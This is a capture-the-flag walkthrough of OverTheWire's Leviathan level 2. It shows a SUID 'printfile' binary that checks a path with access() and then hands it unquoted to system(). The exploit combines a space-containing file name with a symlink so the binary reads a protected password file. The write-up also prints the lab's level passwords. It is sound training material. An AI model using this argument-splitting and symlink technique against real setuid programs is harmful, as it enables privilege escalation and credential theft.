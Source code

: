 **Username:** ``leviathan2``

**Password:** ``NsN1HwFoyN``


#


We start off the challenge by logging in as ``Leviathan2`` over ssh on Port ``2223``:

```console
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```

this time we have an executable called `printfile`.  if we try to run it we can see that it is expecting us to provide a filename and it will then return the ontents of that file.  As an example we can try looking at the contents of one of the files in our home directory:
```console
leviathan2@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Oct  5  2023 .
drwxr-xr-x 83 root       root        4096 Oct  5  2023 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Oct  5  2023 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
leviathan2@gibson:~$ ./printfile .bash_logout
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
```

The executable file has the **SUID** bit set and is configured to run as `leviathan3` but is part of the `leviathan2` group which means that we can execute it.

So the logical next step is let's see if we can have a look at the stored ssh password for `leviathan3`:
```console
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

OK - so it won't be so easy then!

Let's try creating some files that we have ownership of to see how this executbale works.

```console
leviathan2@gibson:~$ mkdir /tmp/mydir
leviathan2@gibson:~$ echo "test1" > /tmp/mydir/test1.txt
leviathan2@gibson:~$ echo "test2"> /tmp/mydir/test2.txt
```

We know that calling a file name we have access to with `./prinfile` will output the contents of that file.  But what happens if we call two files at the same time?

```console
leviathan2@gibson:~$ ./printfile /tmp/mydir/test1.txt /tmp/mydir/test2.txt
test1
```

Looks like only the first file is processed.  OK - so what if our file name has a space in it?

```console
leviathan2@gibson:~$ echo "test3" > /tmp/mydir/"test file.txt"
leviathan2@gibson:~$ ./printfile /tmp/mydir/"test file.txt"
/bin/cat: /tmp/mydir/test: No such file or directory
/bin/cat: file.txt: No such file or directory
```

This is interesting - we can see that `./printfile` is trying to open a file called `test` and another called `file.txt` using `/bin/cat`

We can have a closer look at what's going on using `ltrace`
```console
leviathan2@gibson:~$ ltrace ./printfile /tmp/mydir/"test file.txt"

__libc_start_main(0x80490ed, 2, 0xffffd464, 0 <unfinished ...>
access("/tmp/mydir/test file.txt", 4)                                                                                            = 0
snprintf("/bin/cat /tmp/mydir/test file.tx"..., 511, "/bin/cat %s", "/tmp/mydir/test file.txt")                                  = 33
geteuid()                                                                                                                        = 12002
geteuid()                                                                                                                        = 12002
setreuid(12002, 12002)                                                                                                           = 0
system("/bin/cat /tmp/mydir/test file.tx".../bin/cat: /tmp/mydir/test: No such file or directory
/bin/cat: file.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                           = 256
+++ exited (status 0) +++
```

From this output we can see that the full path is checked with `access()` but then `/bin/cat/` tries to open a file at `/tmp/mydir/test` and another at `./file.txt` - both of which do not exist.

Our strategy here is to create a file called `test file.txt` which we have ownership of and will therefore pass the `access()` validation of `./printfile`.  We then create a symlink `/tmp/mydir/test` which links to the leviathan3 password at `/etc/leviathan_pass/leviathan3`.

```console
leviathan2@gibson:~$ echo "test3" > /tmp/mydir/"test file.txt"
leviathan2@gibson:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/mydir/test
leviathan2@gibson:~$ ./printfile /tmp/mydir/"test file.txt"
f0n8h2iWLP
/bin/cat: file.txt: No such file or directory
```

And there it is! - We just tricked `printfile` to output the contents of `/etc/leviathan_pass/leviathan3`, thus finding our password for the next level!
